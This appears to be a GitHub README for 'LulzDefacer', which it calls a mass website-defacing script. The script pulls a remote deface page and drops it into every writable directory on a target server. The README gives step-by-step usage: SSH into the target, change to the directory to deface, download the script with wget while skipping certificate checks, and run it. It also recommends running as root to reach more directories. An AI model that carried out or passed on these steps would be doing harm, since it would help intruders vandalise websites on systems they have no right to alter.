 # LulzDefacer
> A mass defacing script 

LulzDefacer is a mass defacing script that takes remote deface url and then adds a new deface file to all the directories and subdirectories of `present working directory`

**Note :** It will create files only in writable directory. So better run it with `root` user

![image](https://user-images.githubusercontent.com/28386721/39553569-f3d3c93c-4e8b-11e8-83b6-1940fdf04033.png)

# Required
1. SSH to the target server
2. Python 3
3. wget utility to download script

# How to use
1. Login to Sever
```
$ ssh username@server
```
2. Locate the directory
```
$ cd /path/to/directory/to/deface
```
3. Download the script
```
$ wget https://raw.githubusercontent.com/tbhaxor/LulzDefacer/master/defacer.py --no-check-certificate
```
4. Run the script
```
$ python3 defacer.py
```

# Contact
Facebook : https://fb.com/gurkirat.py <br>
Instagram : gutkirat.py
Email : tbhaxor@gmail.com
